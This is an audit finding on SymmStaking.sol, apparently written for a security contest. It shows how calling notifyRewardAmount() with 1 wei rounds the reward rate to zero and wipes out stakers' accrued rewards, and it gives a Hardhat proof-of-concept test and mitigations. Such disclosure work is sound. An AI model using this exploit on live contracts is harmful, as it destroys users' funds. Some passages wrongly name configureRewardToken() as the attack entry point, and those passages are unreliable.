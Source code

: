 Petite Yellow Anteater

High

# SymmStaking.sol :: notifyRewardAmount() an attacker can set the rate to 0 causing users to lose their accumulated rewards.

### Summary

`notifyRewardAmount()` is responsible for adding new rewards to the contract. However, since it can be called by anyone, a malicious user can exploit this by setting `state.rate` to 0, causing legitimate users to receive nothing when they attempt to claim their rewards.

### Root Cause

[notifyRewardAmount](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L275-L292) is implemented as shown below, and as you can see, it can be called by anyone.
```solidity
function notifyRewardAmount(address[] calldata tokens, uint256[] calldata amounts) external nonReentrant whenNotPaused {
		_updateRewardsStates(address(0));
		if (tokens.length != amounts.length) revert ArraysMismatched();

		uint256 len = tokens.length;
		for (uint256 i = 0; i < len; i++) {
			address token = tokens[i];
			uint256 amount = amounts[i];

			if (amount == 0) continue;
			if (!isRewardToken[token]) revert TokenNotWhitelisted(token);

			IERC20(token).safeTransferFrom(msg.sender, address(this), amount);
			pendingRewards[token] += amount;
			_addRewardsForToken(token, amount);
		}
		emit RewardNotified(tokens, amounts);
	}
```
`_addRewardsForToken()` is called to update the rate based on the newly added rewards.
```solidity
function _addRewardsForToken(address token, uint256 amount) internal {
		TokenRewardState storage state = rewardState[token];

		if (block.timestamp >= state.periodFinish) {
			state.rate = amount / state.duration; 
		} else {
			uint256 remaining = state.periodFinish - block.timestamp;
			uint256 leftover = remaining * state.rate;
			state.rate = (amount + leftover) / state.duration;
			
		}

		state.lastUpdated = block.timestamp;
		state.periodFinish = block.timestamp + state.duration;
	}
```
As you can see, when the new `state.rate` is calculated using the leftover rewards plus the new amount, if the sum of `leftover + amount < state.duration`, it will round down to 0, causing the rate to become 0. This can happen in tree scenarios:

1. **First Scenario:** When new reward tokens are added using `configureRewardToken()`, a malicious user could call `notifyRewardAmount()` with just 1 wei. Since `DEFAULT_REWARDS_DURATION = 1 week = 604800 seconds`, dividing `1 wei / 604800s = 0`, causing the `state.rate` to be set to 0.

2. **Second Scenario :** When `leftover + amount < state.duration`, this happens because the leftover rewards decrease over time. An attacker can monitor the contract and, once the condition is met, call `configureRewardToken()` with 1 wei to intentionally round the rate down to 0.

3. **Third Scenario:** When `block.timestamp >= state.periodFinish`, an attacker can call the function with just 1 wei, which would set the rate to 0. This is because `state.rate = amount / state.duration`, and in this case, there are no leftover rewards to offset the calculation.

This is problematic because if the rate is set to 0 and a user calls `claimRewards()`, the user will receive 0 rewards. This happens because the rate being 0 results in the user losing the rewards earned during that period. 

Additionally, the token's [state.lastUpdated](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L412-L413) is updated to the current time, and since the rate is 0, `rewardState[_rewardsToken].perTokenStored` remains unchanged. This results in the loss of all rewards accumulated during that period for all users.
```solidity
function rewardPerToken(address _rewardsToken) public view returns (uint256) {
		if (totalSupply == 0) {
			return rewardState[_rewardsToken].perTokenStored;
		}
		return
			rewardState[_rewardsToken].perTokenStored +
@>			(((lastTimeRewardApplicable(_rewardsToken) - rewardState[_rewardsToken].lastUpdated) * rewardState[_rewardsToken].rate * 1e18) /
				totalSupply);
	}
```
Given this, the attacker can first deposit 1 wei, set the rate to 0, and then call `claimRewards()`, causing all users to lose the rewards accumulated during that period. In essence, the attacker can manipulate the rate to 0 and immediately trigger `claimRewards()`, leading to a loss of rewards for all users.
### Internal Pre-conditions

1. The rewards token is enabled to call `notifyRewardAmount()` in order to distribute rewards in this token.

### External Pre-conditions

1. If `amount + leftover < state.duration`, the rate will be rounded down to 0. Alternatively, if `state.periodFinish` is reached, an attacker can send 1 wei of rewards to set the rate to 0.

### Attack Path

Attcker calls `notifyRewardAmount()` with 1 wei to round the rate calculation down to 0.

### Impact

Users who claim their rewards will forfeit the rewards accumulated during this period.

### PoC

To better understand the issue, please copy the followingPOC into `symmStaking.behavior.ts`.
```js
it("The rate can be set to 0 causing a loss of funds for users.", async function () {
			// Scenario: Single depositor — user1 deposits 604,800 SYMM, waits 200s, claims 200 tokens.

			//admin correctly configures the rewards, setting `state.rate = 1`, as `604,800 SYMM / 604,800s = 1`.
			const rewardAmount = "604800"
			await stakingToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount)
			await symmStaking.connect(admin).configureRewardToken(await stakingToken.getAddress(), true)
			await symmStaking.connect(admin).notifyRewardAmount([await stakingToken.getAddress()], [rewardAmount])

			const initalRewardState = await symmStaking.rewardState(stakingToken.getAddress());
			const initalRewardAccumulated = initalRewardState.perTokenStored
			//A malicious user configures the rewards to set state.rate to 0 sending 1 wei of rewards, as the calculation `604,798 SYMM (leftover) / 604,800s` results in 0.
			await stakingToken.connect(user1).approve(await symmStaking.getAddress(), 1)
			await symmStaking.connect(user1).notifyRewardAmount([await stakingToken.getAddress()], [1])

			const depositAmount = "604800"
			await time.increase(200)

			await stakingToken.connect(user2).approve(await symmStaking.getAddress(), depositAmount)
			await symmStaking.connect(user2).deposit(depositAmount, user1.address)

			await time.increase(200)

			//the user attempts to claim their rewards but receives nothing because the rate is set to 0, causing them to lose all the rewards accumulated during this period
			const user2BalanceBefore = await stakingToken.balanceOf(user2.address)
			await symmStaking.connect(user2).claimRewards()
			const user2BalanceAfter = await stakingToken.balanceOf(user2.address)
			const claimed = user2BalanceAfter - user2BalanceBefore

			const currentBlock = await ethers.provider.getBlock("latest")
			const currentTime = currentBlock?.timestamp
			const rewardState = await symmStaking.rewardState(stakingToken.getAddress());
			const lastUpdated = rewardState.lastUpdated;
			const finalRewardAccumulated = initalRewardState.perTokenStored

			expect(claimed).to.equal("0")
			expect(await symmStaking.getFullPeriodReward(await stakingToken.getAddress())).to.equal("0")
			
			//time is actualized to the current time
			expect(lastUpdated).to.equal(currentTime)
			//time has passed, but the accumulated rewards remain the same, resulting in a loss of rewards for all users
			expect(initalRewardAccumulated).to.equal(finalRewardAccumulated)
		})
```

### Mitigation

Here are two potential solutions: 

The first is to restrict the `configureRewardToken()` to be called only by a trusted entity. 

The second is to ensure that the rate is never calculated as 0, and if it is, the transaction should be reverted.